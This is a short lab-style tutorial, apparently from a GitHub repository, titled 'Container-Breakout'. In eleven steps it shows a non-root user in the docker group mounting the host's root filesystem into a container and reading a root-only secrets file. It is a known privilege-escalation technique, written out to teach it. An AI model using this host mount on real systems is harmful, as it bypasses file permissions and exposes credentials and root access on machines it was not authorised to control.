




## Container-Breakout
* Step 1: Open terminal
* Step 2: Change directory

	 `cd /root/`
	 
* Step 3: Create a file with some sensitive information
	
	`echo "strong-password" > secrets.txt`	
	
* Step 4: Login as a different user `foobar`

	`su foobar`
	
* Step 5: Try to access `/root/` folder
	
	`cd /root/`
	
	You will see Permission Denied warning
	
	
    
* Step 6: Now run a new docker image with `/` volume exposed to docker
	
	`docker run -it -v /:/testdir alpine sh`
	
* Step 7: Now you are inside a docker container 
	
		
	
* Step 8: Now change the directory to `/testdir/root/`

	`cd /testdir/root/`
	
	
	
* Step 9: Now try to print the `secrets.txt` file which was created on the host machine

	`cat secrets.txt`
	
	
	
	
* Step 10: Exit the docker container 

	`exit`

* Step 11: Logout as `foobar`			

	`exit`
	
	
	

